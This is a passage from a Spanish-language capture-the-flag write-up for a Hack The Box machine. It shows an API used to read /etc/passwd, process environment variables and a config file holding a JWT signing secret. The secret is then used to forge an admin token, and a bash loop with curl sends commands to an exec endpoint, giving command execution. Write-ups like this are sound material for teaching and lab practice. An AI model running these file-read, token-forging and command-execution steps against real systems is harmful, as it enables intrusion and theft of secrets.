 ```console
$:> /etc/passwd
{"file":"root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
# Existen los usuarios htb y root
/proc/self/environ
{"file":"APP_MODULE=app.main:app
PWD=/home/htb/uhc
$:> /home/htb/uhc/app/main.py
# El codigo de la app, destacando que importa tanto librerias internas
from app.schemas.user import User # -> /home/htb/uhc/app/schemas/user.py 
from app.api.v1.api import api_router 
from app.core.config import settings # -> /home/htb/uhc/app/core/config.py
from app import deps
from app import crud
# Tambien esto
uvicorn.run(app, host=\"0.0.0.0\", port=8001, log_level=\"debug\")
$:> /home/htb/uhc/app/core/config.py
JWT_SECRET: str = \"SuperSecretSigningKey-HTB\" # -> la key
FIRST_SUPERUSER: EmailStr = \"root@ippsec.rocks\" # -> lolazo
```
----------------------
# Part 4: Consiguiendo ejecución de comandos

Vamos a crear nustra jwt otra vez pero con este parametro "Debug"
```python
>>> import jwt
>>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2Vu...
>>> secret = "SuperSecretSigningKey-HTB"
>>> cookie = jwt.decode(token, secret, ["HS256"]))
>>> cookie["debug"] = True
>>> cookie
{'type': 'access_token', 'exp': 1668114283, 'iat': 1667423083, 'sub': '1', 'is_superuser': True, 'guid': '36c2e94a-4271-4259-93bf-c96ad5948284', 'debug': True}
>>> jwt.encode(cookie, secret, "HS256")
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MTE0MjgzLCJpYXQiOjE2Njc0MjMwODMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.iZFvYEBJbK9PX4xl1SfdfUwowHOoD34pMHozKr4wUeA'
```
Ya tenemos dicho token valido, asi que podemos utilizar este comando.
```bash
#!/bin/bash

bearer="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MTE0MjgzLCJpYXQiOjE2Njc0MjMwODMsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.iZFvYEBJbK9PX4xl1SfdfUwowHOoD34pMHozKr4wUeA"
while true
do
  echo -n "$:> " && read command
  curl -s -X GET "http://10.10.11.161/api/v1/admin/exec/$command" \
  -H 'accept: application/json' -H 'Content-Type: application/json' -H "Authorization: bearer $bearer"; echo
done
```
```console
└─$ ./command.sh
$:> id
"uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)"
```
Como le estamos pasando el comando a una url, hay que urlencodearlo (espacios a %20 y & a %26) o formatearlo
```console
```